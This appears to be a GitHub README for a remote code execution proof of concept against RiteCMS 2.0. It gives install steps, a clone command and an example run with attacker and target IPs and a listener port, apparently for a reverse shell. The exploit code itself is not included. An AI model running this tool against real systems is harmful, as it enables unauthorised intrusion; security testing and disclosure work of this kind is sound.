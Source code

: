 # RiteCMS-2.0-Remote-Code-Execution
A Remote Code Execution PoC to exploit RiteCMS 2.0
```
python3 ritecms2.0-exploit.py -i <IP> -t <target-IP> -p <port>
```
### Install pip
```
pip3 install requests
pip3 install argparse
pip3 install subprocess
```
### Install rlwrap
```
sudo apt install rlwrap
```
## Steps to reproduce
```
git clone https://github.com/x0root/RiteCMS-2.0-RCE-PoC && cd RiteCMS-2.0-RCE-PoC
```
```
python3 ritecms2.0-exploit.py -i 192.168.1.10 -t 192.168.1.20 -p 4444
```

## NOTE
If first run does not work, try to run again.
